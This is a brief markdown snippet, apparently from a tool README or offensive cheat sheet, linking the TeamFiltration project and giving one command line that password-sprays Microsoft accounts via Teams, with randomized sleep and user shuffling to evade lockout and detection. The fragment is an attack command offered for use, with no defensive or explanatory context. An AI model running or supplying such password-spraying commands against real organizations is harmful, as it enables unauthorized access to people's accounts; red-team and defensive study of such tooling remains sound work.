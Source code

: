 ### Source
https://github.com/Flangvik/TeamFiltration

### Spray password using Microsoft Teams (sleep between each request, works only for accounts with teams licence)
```
./TeamFiltration --outpath <outfile> --config <configFile> --spray --sleep-min 120 --sleep-max 200 --shuffle-users --passwords <passwordFile>
```

